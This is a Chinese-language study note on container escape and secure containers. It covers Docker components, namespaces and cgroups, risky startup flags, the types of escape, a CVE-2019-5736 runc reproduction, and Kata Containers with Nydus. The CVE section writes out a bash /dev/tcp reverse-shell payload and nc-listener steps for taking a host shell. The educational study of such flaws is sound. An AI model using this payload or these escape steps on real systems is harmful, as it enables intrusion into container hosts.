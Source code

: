 # 容器逃逸与安全容器
## Docker运行流程
Docker由Docker-Client, dockerd, containerd, docker-shim, runc组成。

![](images/docker.png)

- docker-client：docker命令行，负责接收用户命令；
- dockerd: docker守护进程，监听请求并管理网络配置和存储卷资源；
- containerd: dockerd实际调用的还是containerd的api接口（grpc方式实现），containerd是dockerd和runc之间的一个中间交流组件;
- docker-shim: docker-shim是一个真实运行的容器的真实垫片载体，每启动一个容器都会起一个新的docker-shim的一个进程，通过指定容器id、buundle目录、运行时二进制来调用runc的api创建一个容器；
- runc:命令行工具端，他根据oci（开放容器组织）的标准来创建和运行容器；

**流程**：Docker CLI将run命令及参数通过REST API传给dockerd，dockerd根据请求拉取并验证镜像，之后将控制权交给containerd去创建容器，之后containerd设置容器环境（文件系统，网络）。然后，containerd会使用shim进程将容器的运行委托给runc创建并启动容器。容器运行时，containerd将监视容器状态并相应地管理生命周期。

## Namespace和Cgroup
### Namespace
Namespace将内核的全局资源进行封装，使每个Namespace有一份独立资源，不同进程在各自的Namespace内对同一种资源的使用不会相互干扰。Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。
| Namespace 类型 | 隔离的资源                                  | 作用描述                                                                 |
|---------------|--------------------------------------------|--------------------------------------------------------------------------|
| **IPC**       | System V IPC 和 POSIX 消息队列              | 隔离进程间通信机制（如信号量、共享内存、消息队列），防止跨容器干扰。               |
| **Network**   | 网络设备、协议栈、端口、路由表等             | 每个容器拥有独立的网络接口、IP 地址、防火墙规则等，实现网络隔离。                 |
| **Mount**     | 文件系统挂载点                              | 隔离文件系统挂载信息，使容器无法访问宿主机或其他容器的挂载点（如 `/proc`、`/sys`）。 |
| **PID**       | 进程 ID (PID)                              | 容器内只能看到自己的进程树，无法查看或操作宿主机或其他容器的进程。                  |
| **UTS**       | 主机名 (Hostname) 和域名 (NIS Domain Name) | 允许容器独立设置主机名，不影响宿主机或其他容器。                                |
| **User**      | 用户 ID (UID) 和组 ID (GID)                | 隔离用户权限，容器内 root 用户可被映射到宿主机非 root 用户（增强安全性）。  

部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

| 启动参数              | 影响的 Namespace       | 授予的权限或行为                          |
|-----------------------|------------------------|-------------------------------------------|
| `--cap-add=SYS_ADMIN` | 无直接绕过             | 允许容器执行 `mount` 等特权操作，可能导致文件系统挂载逃逸 |
| `--net=host`          | Network Namespace      | 容器直接使用宿主机的网络栈（共享网络接口、端口等）     |
| `--pid=host`          | PID Namespace          | 容器可看到宿主机上的所有进程                       |
| `--ipc=host`          | IPC Namespace          | 容器与宿主机共享进程间通信资源（如信号量、共享内存等）  |

示例：使用`docker run –it –pid=host --cap-add=CAP_KILL ubuntu /bin/bash`可以实现在容器中杀死宿主机的进程。

### Cgroup
Cgroup是内核提供的一种资源隔离的机制，可以实现对进程所使用的cpu、内存物理资源、及网络带宽等进行限制。还可以通过分配的CPU时间片数量及磁盘IO宽带大小控制任务运行的优先级。系统中的进程（任务）创建子进程（任务）时，该子任务自动成为其父进程所在cgroup的成员。在docker中，cgroup用来确保一个容器只能使用被分配的资源量，避免某个容器因为过度消耗资源而影响到其他容器或主机系统的稳定性。

![](images/cgroup.png)

图中task1分配到cgroup_2的内存资源，cgropu_3的cpu资源，其子进程task2和task3也最多只能使用cgroup_2的内存资源和cgropu_3的cpu资源。

在Docker中，默认情况下，没有对CPU和内存资源进行硬性限制，若要进行硬性限制，则在启动容器时需要，例如：
```
docker run -it --rm --memory=“512m” \
 --memory-swap=“1g” \
 --cpus=“1.5“ \ 
mycontainer
```

## 容器逃逸类型
容器逃逸指的是攻击者利用容器中的漏洞或配置错误，突破容器的隔离机制，从而访问宿主机或其他容器内的资源。
- （系统层）内核漏洞：指由于内核漏洞导致的容器逃逸问题，例如：如果宿主机的Linux内核存在安全漏洞，攻击者可能利用这些漏洞从容器内部执行恶意代码，从而获取宿主机上的权限；
- （服务层）软件设计不当：指由于运行时漏洞导致的容器逃逸问题，Docker是一个容器化平台，它包含了docker软件本身以及runc和containerd等核心组件，这些组件本身也可能存在漏洞，攻击者可以利用这些漏洞来进行容器逃逸。
- （用户层）特权模式与配置不当：指由于容器实例使用的危险配置、危险挂载导致的容器逃逸，例如：容器使用了不安全的卷挂载，或者容器以过高的权限运行，都可能被攻击者利用来实现容器逃逸；

### 服务层容器逃逸案例（CVE-2019-5736）
2019年2月11日，runC的维护团队报告了一个新发现的漏洞，SUSE Linux GmbH高级软件工程师Aleksa Sarai公布了影响Docker, containerd, Podman, CRI-O等默认运行时容器runc的严重漏洞CVE-2019-5736。漏洞会对IT运行环境带来威胁，漏洞利用会触发容器逃逸、影响整个容器主机的安全，最终导致运行在该主机上的其他容器被入侵。漏洞影响AWS, Google Cloud等主流云平台。
- 影响版本：docker version <= 18.09.2, runc <= 1.0-rc6
- 漏洞链接：https://github.com/Frichetten/CVE-2019-5736-PoC
- 复现方式：将Poc代码中main.go 文件中payload变量定义为`var payload="#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1"`(其中<ip>指攻击者机器的ip)，之后在受害者机器上编译执行main.go，然后在攻击者机器上开启nc监听，监听<port>端口，再次在受害者机器上进入或启动容器时，攻击者机器就可以拿到受害者机器的shell控制权；
- 漏洞原理：攻击者可以通过修改容器内部某个可执行文件的方式，获取到宿主机上 runc 可执行文件的文件句柄（file descriptor）。随后，攻击者可以利用该句柄对原始的 runc 文件进行覆盖操作，将其替换为一个受控的恶意文件；

POC代码解析：

1. `/bin/sh` -> `#!/proc/self/exe` 

    将shell变成指向当前进程可执行文件的链接，让host的runc进程执行自身

2. runc -> `#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1`

    将runc覆盖为反弹shell

3. 下次执行docker run/exec 时，就会使用runc二进制文件，执行攻击者的payload

## Kata Containers
Kata Containers项目最初由Hyper.sh的runV项目与Intel的Clear Container合并而来，并于2017年开源。它的核心思想是，为每一个容器运行一个独立虚拟机，从而避免其与宿主机共享内核。即使攻击者在容器内部成功利用了内核漏洞攻破内核，他依然被限制在虚拟机内部，无法逃逸到宿主机上。
![](images/kata.png)
和Docker一样，Kata Container1.0也包含containerd、containerd-shim，还额外包含的组件如下：
- kata-shim：kata容器的容器进程运行在虚拟机中，虚拟机和host之间是隔离的，container-shim无法监控到kata容器进程的生命状态，所以使用kata-shim进行中转；
- kata-runtime：负责调用底层虚拟化技术（如qemu）来启动虚拟机；
- kata-proxy：转发来自kata runtime的请求到VM的kata-agent；
- kata-agent：负责实际的容器生命周期管理和资源配置（创建新容器，调整资源配置）;

### Nydus镜像加速系统

传统的Docker镜像在分发和使用过程中会存在以下问题：
- 启动速度慢：由于需要下载并解压整个镜像层才能启动容器，导致容器启动时间长；
- 存储效率低下：某个文件在Upper层里被删除或修改，文件依然留在Lower层，它们仍然占用存储空间；
- 镜像与镜像之间存在重复数据：不同镜像文件不共享；

针对以上问题，Kata Containers 3.0提出了Nydus镜像加速系统，其核心思想为按需加载和共享重复块：
- 按需加载：采用"运行时按需获取"架构，容器启动时仅下载元数据（约30KB的bootstrap文件），当容器访问特定文件时，才从仓库下载对应的数据块（chunk）；
- 共享数据块：最小单位为数据块（chunk），可跨镜像共享基础层数据块。例如，若上传了一个Ubuntu镜像到远端仓库，之后想基于Ubuntu构建一个Python镜像和一个Nginx镜像，可以通过--base-bootstrap=bootstrap_xxx.json来引用远程Ubuntu镜像中的数据块chunks，之后进行新镜像的构建，在上传镜像时只上传新增的Chunks。

# 参考链接
* https://www.docker.com/blog/containerd-vs-docker/
* https://www.cnblogs.com/xiaozi/p/13423853.html
* https://www.thebyte.com.cn/container/CRI-in-Kubernetes.html
* https://www.lixueduan.com/posts/docker/03-container-core/
* https://juejin.cn/post/7096115284875935781
* https://www.infoq.cn/article/dgbkj0dwftxeusp64dk9
* https://www.ctyun.cn/developer/article/531766025101381

